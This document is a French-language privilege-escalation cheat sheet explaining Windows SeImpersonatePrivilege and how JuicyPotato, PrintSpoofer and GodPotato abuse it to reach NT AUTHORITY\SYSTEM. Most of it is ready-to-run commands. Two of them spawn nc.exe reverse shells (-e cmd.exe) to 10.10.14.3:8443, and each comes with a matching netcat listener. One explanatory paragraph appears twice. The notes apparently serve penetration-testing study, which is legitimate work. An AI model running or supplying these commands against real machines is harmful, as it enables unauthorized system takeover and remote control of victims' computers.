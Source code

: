### Qu'est-ce que le droit "SeImpersonatePrivilege" ?

Ce privilège permet à un processus d'adopter l'identité d'un autre utilisateur. Il est souvent utilisé en conjonction avec des services Windows qui doivent s'exécuter avec des niveaux de privilèges élevés. Un utilisateur avec ce privilège peut potentiellement élever ses droits à `NT AUTHORITY\SYSTEM`, qui est le niveau de privilège le plus élevé sur un système Windows.


Ce privilège permet à un processus d'adopter l'identité d'un autre utilisateur. Il est souvent utilisé en conjonction avec des services Windows qui doivent s'exécuter avec des niveaux de privilèges élevés. Un utilisateur avec ce privilège peut potentiellement élever ses droits à `NT AUTHORITY\SYSTEM`, qui est le niveau de privilège le plus élevé sur un système Windows.

---
### Utilisation de JuicyPotato.exe

JuicyPotato est un outil qui peut abuser de ce privilège pour exécuter un code arbitraire avec des privilèges élevés. Notez que cet outil ne fonctionne pas à partir de Windows Server 2019/Windows 10 à cause des améliorations de sécurité.

```powershell
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

```bash
nc -lnvp 8443  # Ecoute sur le port 8443 pour une connexion entrante`
```

---
### Utilisation de PrintSpoofer.exe

PrintSpoofer est une autre technique qui abuse du privilège `SeImpersonatePrivilege` pour élever des privilèges :

```powershell
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

```bash
nc -lnvp 8443  # Ecoute sur le port 8443 pour une connexion entrante`
```

---
### Utilisation de GodPotato.exe

GodPotato est encore une autre patate qui abuse du privilège `SeImpersonatePrivilege` pour élever des privilèges :

```powershell
GodPotato -cmd "cmd /c whoami"
```

> [!Astuce]
> GodPotato est à privilégier, il s'agit du plus simple et est compatible avec Windows Server 2019/Windows 10 !

